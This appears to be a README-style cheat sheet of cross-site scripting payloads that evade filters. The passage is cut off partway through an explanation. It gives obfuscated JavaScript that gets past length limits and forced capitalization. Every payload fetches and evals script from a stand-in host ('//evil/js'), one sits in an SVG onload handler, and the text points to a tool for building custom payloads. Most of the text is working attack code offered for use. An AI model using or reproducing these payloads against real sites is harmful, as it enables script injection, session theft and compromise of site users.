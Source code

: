 Works with arbitrary payloads
No additional wrapping needed
<script> must not be blocked and must not appear between the payloads
Payloads order on page does matter.
<script>/*
*/X="f"+/*
*/"etc"+/*
*/"h('"+/*
*/"//e"+/*
*/"vil"+/*
*/"/js"+/*
*/"')."+/*
*/"the"+/*
*/"n(r"+/*
*/"=>r"+/*
*/".te"+/*
*/"xt("+/*
*/").t"+/*
*/"hen"+/*
*/"(ev"+/*
*/"al)"+/*
*/"))"/*
*/;eval/*
*/(X);
</script>
How to modify it
Replace the encoded payload above with the output from:

python2 fetch_helpers.py -x '//myown/external/js' -e split_to_len --maxLen 10
Note: You can give it an arbitrary payload using the -p option. You can also adjust the maximum length. See python2 fetch_helpers.py --help for more options.

Dealing with capitalization
Usecase: payload is being capitalized, character limit >= 131 (not including wrapping and length of external resource URL)
Works with arbitrary payloads
Needs wrapping; <script>payload</script> won’t work—use event handlers
X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())
Explanation
The second part of the payload is eval(X.toLowerCase()).

Note: <script> doesn’t work here, because the HTML characters won’t be interpreted. Payload must be in an event handler. For example:

<SVG/ONLOAD='X="FETCH(\"//EVIL/JS\").THEN(R=>R.TEXT().THEN(EVAL))";&#X65;&#X76;&#X61;&#X6C;(X.&#X74;&#X6F;L&#X6F;&#X77;&#X65;&#X72;C&#X61;&#X73;&#X65;())'/>
Usecase: payload is being capitalized, character limit > ~342 (not including wrapping, may vary depending on external resource URL)
Works with arbitrary payloads
X can be any function that doesn’t involve lowercase letters. Some examples are:
URL and $: don’t work inside event handlers
USB and CSS: don’t have good cross-browser support
[][F[0]+(1/0+[])[3]+F[2]+F[2]] used below, where F is “false”, gives []["fill"], i.e. Array.prototype.fill: works in all browsers and in all places
T=!0+[];F=!1+[];X=[][F[0]+(1/0+[])[3]+F[2]+F[2]];Y=X+[];S=F[3]+F[2]+Y[5]+Y[3]+F[4];C=Y[3]+Y[S](6,8)+F[3]+T[S](0,3)+Y[S](3,5)+Y[6]+T[1];N=C[S](8,10)+(""[C]+[])[S](9,15);(X[C](25885457[N](36)+"('//"+694029[N](36)+"/"+712[N](36)+"')."+1375583[N](36)+"("+27[N](36)+"=>"+27[N](36)+"."+1372385[N](36)+"()."+1375583[N](36)+"("+693741[N](36)+"))"))()
Explanation (with comments)
T=!0+[]; // "true"
F=!1+[]; // "false"
// I=1/0+[]; // "Infinity"
X=[][F[0]+(1/0+[])[3]+F[2]+F[2]]; // []["fill"], i.e.
                                  // Array.prototype.fill
